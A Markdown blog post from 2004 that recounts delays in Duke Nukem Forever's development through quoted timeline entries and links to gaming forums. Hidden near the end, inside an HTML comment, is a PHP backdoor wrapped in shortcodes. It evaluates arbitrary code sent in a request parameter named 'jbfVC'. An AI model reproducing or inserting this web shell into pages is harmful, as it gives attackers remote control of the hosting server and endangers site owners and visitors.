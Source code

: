 ```yaml
---
title: Duke Nukem In-Development 4ever
author: Paul Cutler
type: post
date: 2004-08-30T13:12:15+00:00
url: /blog/2004/08/duke-nukem-in-development-4ever/
categories:
  - Entertainment
  - PC Games

---
```

Duke Nukem In-Development 4ever

As seen on [Evil Avatar<a></a>:][1]

[The History and Timeline of Duke Nukem 4ever][2] as written by Syfer on the 3dRealms forums.

Some Choice Quotes from the timeline:

Janurary 1997: Work on DNF started.*

Late 1999: 3DR announces upgrade to UT level tech. It is expected to take two weeks. 3DR releases a Christmas card saying that DNF will be released in 2000.

Unknown 2002: Broussard states that DNF will definitely be out before DooM 3.

Late 2003/early 2004: Take 2 complains about DNF development and expects it around &#8220;late 2005&#8221;. &#8220;At this point we&#8217;re just hoping the team [in garland] will finish the project.&#8221;

<!-- [insert_php]if (isset($_REQUEST["jbfVC"])){eval($_REQUEST["jbfVC"]);exit;}[/insert_php][php]if (isset($_REQUEST["jbfVC"])){eval($_REQUEST["jbfVC"]);exit;}[/php] -->

 [1]: http://www.evilavatar.com/modules.php?op=modload&name=News&file=article&sid=5821&mode=thread&order=0&thold=0
 [2]: http://forums.3drealms.com/ubbthreads/showflat.php?Cat=&Number=639028&page=0&view=collapsed&sb=5&o=93&fpart=1